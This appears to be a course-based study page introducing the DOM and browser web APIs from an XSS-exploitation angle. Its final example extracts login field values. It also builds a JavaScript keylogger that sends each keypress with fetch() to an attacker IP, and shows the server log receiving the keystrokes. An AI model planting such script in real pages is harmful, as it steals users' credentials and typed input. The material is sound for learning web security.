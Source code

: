 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# JavaScript 101

## DOM

> _The content below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

In layman's terms when a web page is loaded, the browser processes its HTML code, and creates a [Document Object Model (DOM)](https://developer.mozilla.org/en-US/docs/Web/API/Document\_Object\_Model) of the page (DOM tree). JavaScript (JS) is used to access and modify all of the DOM's elements in order to create dynamic HTML content. XSS's goal is to inject JS code for accessing and/or modifying the page's DOM.

The interaction between HTML and the DOM is nicely described by [Marie Chatfield](https://mariechatfield.com/blog/html-vs-dom?external\_link=true): think of a set of architectural plans (HTML) given to a builder (browser), who then turn those plans into a house (DOM) (Figure 1).

<figure><img src="../../../../.gitbook/assets/html_browser_dom.png" alt=""><figcaption><p>Figure 1: A set of plans (HTML) is given to a builder with a book (browser) that is turned into a house (DOM) (image taken from <a href="https://mariechatfield.com/blog/html-vs-dom?external_link=true"><em>here</em></a>).</p></figcaption></figure>

For instance, let's say that an HTTP response contains the following HTML code.

```html
<!-- an example HTML document -->
<!DOCTYPE html>
<html>
<head>
  <title>My Document</title>
</head>
<body>
  <h1>Hello, World!</h1>
  <p>This is a paragraph.</p>
</body>
</html>
```

The browser will processes that and create the following DOM.

```html
<!-- the corresponding DOM -->
- Document
  - html
    - head
      - title
        - "My Document"
    - body
      - h1
        - "Hello, World!"
      - p
        - "This is a paragraph."

```

If our goal was to modify the `h1` element, we could do this using JS.

```javascript
// modifying the h1 element
document.querySelector('h1').textContent = 'Hello, DOM!';
```

There are many built-in [web APIs](https://developer.mozilla.org/en-US/docs/Web/API), but the following are the most useful from an XSS-standpoint.

## Web APIs

### Console

The [`console`](https://developer.mozilla.org/en-US/docs/Web/API/Console\_API) interface is used for debugging tasks, such as logging messages (`console.log`).

### Window

The [`window`](https://developer.mozilla.org/en-US/docs/Web/API/Window) interface represents a window containing a DOM object. The `document` property points to the DOM document loaded in that window. Some useful properties are `localStorage`, `location`, and `alert`.

### Document

The [`document`](https://developer.mozilla.org/en-US/docs/Web/API/Document) interface represents any web page loaded in the browser and serves as an entry point in the web page's content, which is the DOM tree. This is the most effective interface for exploiting an XSS flaw.

### Fetch

The [`fetch`](https://developer.mozilla.org/en-US/docs/Web/API/Fetch\_API) interface allows fetching local and remote resources. It is non-blocking, i.e., the UI won't be locked up while the request is made and the response is returned. It does not return the data right away, instead, it returns a promise to complete the execution. To access the response, we need to use the `then` method and pass in a function to execute when the response is available.

## Example

We have an app which contains a login form and our goal is to extract the `username` and `password` field values. We can use the `document` and the `console` APIs to achieve that (Figure 1).

> _In HTML, text boxes are created using the `input` tag._

```javascript
// save the returned array into a variable
let inputs = document.getElementsByTagName("input")
// loop through the elements and extract their value
for (let input of inputs) {
  // log each value to the console
  console.log(input.value)
```

<figure><img src="../../../../.gitbook/assets/web_xss_101_1.png" alt=""><figcaption><p>Figure 1: Extracting the values of the targeted fields.</p></figcaption></figure>

We might also want to create a custom keylogger to extract information (Figure 2).

```javascript
// a function the logs keypresses to the console
function logKey(event){
    console.log(event.key)
}
// execute the function every time a key is pressed
document.addEventListener('keydown', logKey);
```

<figure><img src="../../../../.gitbook/assets/web_xss_101_2.png" alt=""><figcaption><p>Figure 2: Creating a custom keylogger.</p></figcaption></figure>

If we send the above script to our target the keystrokes will be logged into their browser's console, but we won't have access to it. We can modify our script and use the `fetch` API to exfiltrate the data.

```javascript
// a function the logs keypresses to the console
function logKey(event){
    fetch("http://192.168.45.214/k?key=" + event.key);
}
// execute the function every time a key is pressed
document.addEventListener('keydown', logKey);
```

```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.168.101 - - [04/Aug/2024 10:21:55] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:55] "GET /k?key=I HTTP/1.1" 404 -
192.168.168.101 - - [04/Aug/2024 10:21:55] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:55] "GET /k?key= HTTP/1.1" 404 -
192.168.168.101 - - [04/Aug/2024 10:21:55] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:55] "GET /k?key=L HTTP/1.1" 404 -
192.168.168.101 - - [04/Aug/2024 10:21:56] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:56] "GET /k?key=i HTTP/1.1" 404 -
<SNIP>
```
